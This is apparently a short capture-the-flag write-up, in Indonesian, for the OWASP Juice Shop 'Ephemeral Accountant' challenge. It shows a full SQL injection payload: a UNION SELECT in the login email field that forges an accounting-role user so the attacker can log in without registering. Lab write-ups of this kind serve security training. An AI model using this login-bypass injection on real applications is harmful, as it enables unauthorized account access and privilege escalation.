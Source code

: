 # Ephemeral Accountant

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Steps

Saya melakukan inspeksi ketika mencoba untuk login. Lalu, dari database schema sebelumnya saya analisa strukturnya. Karena diminta untuk login sebagai user yang tidak terdaftar saya akan menggunakan `UNION` dan menambahkan kombinasi payload.

```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "bebas"
}
```

Setelah itu, masukkan ke login page
<img src="./img/accountantlogin.png">

Dan kita bisa masuk sebagai user accountant
<img src="./img/accountantloggedin.png">
